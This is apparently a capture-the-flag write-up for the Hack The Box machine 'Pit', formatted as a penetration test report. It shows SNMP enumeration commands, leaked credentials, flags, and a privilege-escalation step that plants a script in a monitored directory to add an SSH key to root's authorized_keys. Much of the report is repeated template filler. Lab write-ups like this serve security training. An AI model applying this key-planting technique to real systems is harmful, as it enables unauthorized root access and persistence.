# Offensive Security Assessment Report: Pit


**Offensive Security Assessment & Penetration Testing Report** conducted on the target environment **Pit** hosted on **Hack The Box**, executed in accordance with **OffSec PEN-200 (OSCP)** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** Public-Facing Network Service Exploitation
* **Privilege Escalation Vector:** Local Privilege Escalation
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Pit |
| **Platform** | Hack The Box |
| **Operating System** | Linux |
| **Difficulty Rating** | Medium |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | Public-Facing Network Service Exploitation |
| **Privilege Escalation Vector** | Local Privilege Escalation |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: Public-Facing Network Service Exploitation
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: Local Privilege Escalation
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

> **Assessment Query / Target Milestone:** How many open TCP ports are listening on Pit?

* **Observed Evidence / Output:** 3



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.


> **Assessment Query / Target Milestone:** What UDP port is listening on Pit?

* **Observed Evidence / Output:** 161



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.


> **Assessment Query / Target Milestone:** What community string allows access to the SNMP service?

* **Observed Evidence / Output:** public



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
 snmpwalk -cpublic -v2c 10.10.10.241
```


> **Assessment Query / Target Milestone:** What is the full URL of the document management application on the webserver?

* **Observed Evidence / Output:** [http://dms-pit.htb/seeddms51x/seeddms](http://dms-pit.htb/seeddms51x/seeddms/out/out.Login.php?referuri=%2Fseeddms51x%2Fseeddms%2F)



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


```jsx
snmpwalk -v2c -c public pit.htb 1.3.6.1.4.1.2021.9.1.2 \
| awk -F\" '/\/var\/www\/html\//{print $2}'
/var/www/html/seeddms51x/seeddms

snmpwalk -cpublic -v2c 10.10.10.241  .1.3.6.1.4.1.2021.9
snmpwalk -cpublic -v2c 10.10.10.241 .1.3.6.1.4.1.8072.1.3.2

REL=$(snmpwalk -v2c -c public pit.htb 1.3.6.1.4.1.2021.9.1.2 \
      | awk -F\" '/\/var\/www\/html\//{sub("^/var/www/html","",$2); print $2; exit}')
URL="http://dms-pit.htb${REL}/"
echo "$URL"

```


> **Assessment Query / Target Milestone:** What username leaked over SNMP uses their username as their password on the SeedDMS instance?

* **Observed Evidence / Output:** michelle

pass: michelle



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the 2019 CVE ID for a remote code execution vulnerability in SeedDMS that was patched in version 5.1.11?

* **Observed Evidence / Output:** `CVE-2019-12744`



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.


**CVE-2019-12744 is patched by including what file in the `data` directory?**

* **Observed Evidence / Output:** .htaccess


> **Assessment Query / Target Milestone:** What user is the webserver running as?

* **Observed Evidence / Output:** nginx



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the password used by SeedDMS to connect to the MySQL database?

* **Observed Evidence / Output:** ied^ieY6xoquu



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What user reused the database password as their password on the system and thus on the Cockpit service running on 9090?

* **Observed Evidence / Output:** michelle

**Submit the flag located in the michelle user's home directory.**

* **Observed Evidence / Output:** cf46cfaf5c9567ec1fec0a40aa3051f1



* **Assessment Step 09:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the full path to the Bash script that's being run by snmpd via the extended command named "monitoring"?

* **Observed Evidence / Output:** /usr/bin/monitor



* **Assessment Step 10:** Command execution output, exploit delivery proof, or auxiliary evidence.


**Scripts from what directory that's writable by the michelle user are executed by the `monitor` script?**

* **Observed Evidence / Output:** /usr/local/monitoring



* **Assessment Step 11:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 12:** Command execution output, exploit delivery proof, or auxiliary evidence.


**Submit the flag located in the root user's home directory.**

* **Observed Evidence / Output:** 0e86ae74210d696b292c71005efe3671

```jsx
ssh-keygen -t ed25519 -f ~/.ssh/pit_root -C "pit-root" -N ''
echo 'echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKOna3yKxmb6U80tO6a4EbcRne/EXrPdYMe72n/eldiB pit-root" >> /root/.ssh/authorized_keys' > /usr/local/monitoring/check_key.sh
snmpwalk -cpublic -v2c 10.10.10.241 .1.3.6.1.4.1.8072.1.3.2
ssh -i ~/.ssh/pit_root -o StrictHostKeyChecking=no root@pit.htb
```



* **Assessment Step 13:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 14:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (Public-Facing Network Service Exploitation) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (Local Privilege Escalation) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for **OffSec** certification preparation (OSCP, OSEP, OSWE) and commercial penetration testing enablement.
